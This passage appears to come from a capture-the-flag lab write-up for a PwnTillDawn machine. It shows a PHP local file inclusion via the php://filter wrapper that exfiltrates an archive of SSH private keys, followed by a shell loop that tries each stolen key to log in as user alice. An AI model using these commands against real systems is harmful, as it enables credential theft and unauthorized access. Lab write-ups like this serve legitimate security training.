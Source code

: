 ![Untitled](/Vulnhub-Files/img/Silence/Untitled%206.png)

Also lets extract this file on the way →

```bash
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.55]
└─$ curl 'http://10.150.150.55/trick.php?page=php://filter/convert.base64-encode/resource=/home/sally/backup/SSHArchiveBackup.tar.gz' | base64 -d > SSHArchiveBackup.tar.gz
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
100  239k    0  239k    0     0  52453      0 --:--:--  0:00:04 --:--:-- 52457
┌──(kali㉿kali)-[~/Downloads/PwnTillDawn/10.150.150.55]
└─$ tar -xvzf SSHArchiveBackup.tar.gz
```
{: .nolineno}
{: .nolineno}

After Extraction of this `SSHArchiveBackup.tar.gz` file I got many private keys so I have to perform a SSH login with these different private keys so I created a script that takes these different private keys as input and perform SSH with one username at a time and also I got know about users through`/etc/passwd` discloser→

```bash
for key in id_rsa*; do echo $key; ssh -p 1055 -o "PreferredAuthentications=publickey" alice@10.150.150.55 -i $key; done
```
{: .nolineno}
{: .nolineno}

I tried with user `alice` and I got in →
